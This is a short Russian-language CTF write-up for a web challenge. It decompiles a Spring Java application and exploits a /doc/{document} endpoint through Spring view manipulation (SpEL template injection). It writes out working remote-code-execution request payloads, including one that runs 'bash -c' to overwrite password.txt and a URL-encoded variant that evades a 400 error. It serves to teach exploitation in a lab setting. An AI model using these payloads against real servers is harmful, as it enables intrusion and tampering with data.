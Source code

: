# Web 2
Декомпилим исходники сайта через Luyten, потому что исходники на джаве(.jar):\
![java.png](java.png "а вот и исходники")
Видим упоминание springframework, в том числе в MANIFEST.MF, это ам понадобится. В HelloController.class описана основная логика приложения, внимательно читаем его и понимаем, что чтобы получить флаг, нам нужно узнать/записать пароль в password.txt:\
![password.png](password.png "интересненько...") \
Видим ещё /doc/{document}, который скорее всего можно проэксплатировать. Ищем в яндексе "springframework Path Variable exploit" и натыкаемся на замечательный сайт:\
https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability \
На нём находим эксплоит для /doc: \
```
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
```
Гуглим как в джаве запускать что-то из шелла: \
https://stackoverflow.com/questions/13707519/running-a-bash-shell-script-in-java
Вместо touch пробуем перезаписать password.txt:\
```
/doc/__${T(java.lang.Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
и получаем 400: \
![400.png](400.png "400 :(")
Методом перебора понимаем, что проблема в [], поэтому кодируем их в юрл: \
```
192.168.12.13:8090/doc/__${T(java.lang.Runtime).getRuntime().exec(new String%5b%5d{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
Сработало:
![win1.png](win1.png "win! :)")
Логинимся и получаем флаг!!!!!!!! \
![win2.png](win2.png "win!!!!! ^-^")
